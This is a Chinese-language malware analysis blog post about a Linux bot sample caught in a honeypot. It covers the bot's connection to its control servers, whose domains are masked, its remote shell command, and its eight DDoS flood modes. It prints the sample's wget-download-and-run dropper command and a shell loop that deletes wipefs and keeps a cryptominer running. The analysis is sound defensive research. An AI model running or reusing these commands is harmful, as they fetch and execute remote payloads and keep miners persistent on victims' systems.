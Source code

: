 ```yaml
---
layout: post
title: "MalwareMustDie lx样本分析"
---
```


# 0x00 背景

蜜罐上捕获到`wget`下载的样本，顺着网址一访问发现是用`HttpFileServer v2.3k 299`国产软件搭建的http服务，隐约感觉这种软件会有溢出漏洞，但也没时间去看页面就访问不了了。可以证明其下载的恶意软件出自国人之手，VT上也还没有相关的检测：

![][1]

<!-- more -->

该样本也是个被控端，接收主控端指令后可以`system`执行，该样本执行了如下命令：

```
sh -c cd /bin;rm -rf uninstall* ;wget http://xx.xx.xx.xx:6892/uninstall;chmod 777 uninstall;sh uninstall
```

下载运行的脚本文件主要是循环检测运行netwrite文件：

```
while true; 
do
	pkill -9 wipefs;
	rm -rf /bin/wipefs;
  count=`ps -ef |grep netwrite |grep -v "grep" |wc -l`
  if [ 0 == $count ]; then
     cd /bin;./netwrite; 
  fi
  sleep 60 
done
```

[该文件](https://www.virustotal.com/#/file/fdb42232c5c2fd226662b3571179f5dd573d6fa513cc5bd7c9c5a456315591aa/detection)也就是常见的挖挖比特币：

![][2]

样本逆向看了一下还是处于开发阶段，主要有接收指令执行命令和DOS功能。

# 0x01 连接主控端

样本先调用`if_nameindex`查看是否有网，然后调用空函数`CreateAutoRun`，所以应该还是开发阶段的程序。接下来又是很奇怪地使用两个函数来连接主控端并处理接收指令，对比了一下功能都是一样的，只是主控端的域名和端口不同，另外一个函数会是sleep 8分钟再去开线程连接主控端，域名端口如下：

```
o.xxxx.cn:21
www.xxxx.club:3065
```

从这域名注册信息也可以看出是很符合国内黑阔大佬的风格：

![][3]

一旦连接成功后就会自报主机的release版本和其他信息：

![][4]

# 0x02 接收指令

![][5]

## CmdShell

前4个字节比较为5后，后面的字符串便会传递给`system`函数执行。

## DealwithDDoS

其中主要有8个类型的DOS攻击，下面分析一下指令的结构和攻击的效果。

### SYN_Flood

![][6]

伪造的源端口每次会增加0x100。

![][7]

### UDP_Flood

![][8]

向目的udp端口发送1024字节的X字符。

![][9]

### ICMP_Flood

和UDP_Flood类似，发送的udp数据包data大小为2048字节。

### DNS_Flood

![][10]

会生成随机的Name和Type对目的DNS服务器进行查询。

![][11]

### GET_Flood

![][12]

需要手动添加`\x00`截断ip和url；在url的后面会添加5个随机生成的字节。

![][13]

### POST_Flood

和GET_Flood类似，只是改成了POST。

### FAST_Flood

GET_Flood without headers，只有Host Header。

### TCP_Flood

完全没有header的GET_Flood。

## StopFlag

在上述的Flood攻击中都会do-while地发送数据包，StopFlag就是用于停止攻击的指令：

![][14]

# 0x03 总结

样本主要是开启新线程去执行指令，代码量有些重复分析起来也比较简单。新年伊始，也希望能够赶上自动化分析的脚步，真正做到MalwareMustDie。


[1]: https://wx1.sinaimg.cn/large/ee2fecafgy1fnmzh1zaa7j20x002mmxw.jpg
[2]: https://wx4.sinaimg.cn/large/ee2fecafgy1fnmzh3muyoj20w00csgn3.jpg
[3]: https://wx1.sinaimg.cn/large/ee2fecafgy1fnmzh4t0gyj20h907fglj.jpg
[4]: https://wx1.sinaimg.cn/large/ee2fecafgy1fnmzh62z52j20jb027q2u.jpg
[5]: https://wx4.sinaimg.cn/large/ee2fecafgy1fnmzh7m665j20kj07n3yj.jpg
[6]: https://wx3.sinaimg.cn/large/ee2fecafgy1fnmzh8gwvtj20lc02ma9w.jpg
[7]: https://wx2.sinaimg.cn/large/ee2fecafgy1fnmzhai9vfj20ra078myi.jpg
[8]: https://wx2.sinaimg.cn/large/ee2fecafgy1fnmzhbo7g9j20gk02kglf.jpg
[9]: https://wx2.sinaimg.cn/large/ee2fecafgy1fnmzhdbwz6j20sp07dwfr.jpg
[10]: https://wx1.sinaimg.cn/large/ee2fecafgy1fnmzhecev2j20gw02lt8j.jpg
[11]: https://wx3.sinaimg.cn/large/ee2fecafgy1fnmzhg33e2j20so05bta2.jpg
[12]: https://wx2.sinaimg.cn/large/ee2fecafgy1fnmzhgzvo6j20is02k0sk.jpg
[13]: https://wx4.sinaimg.cn/large/ee2fecafgy1fnmzhia4xnj20kk069wf2.jpg
[14]: https://wx1.sinaimg.cn/large/ee2fecafgy1fnmzhitmrrj20em028a9v.jpg
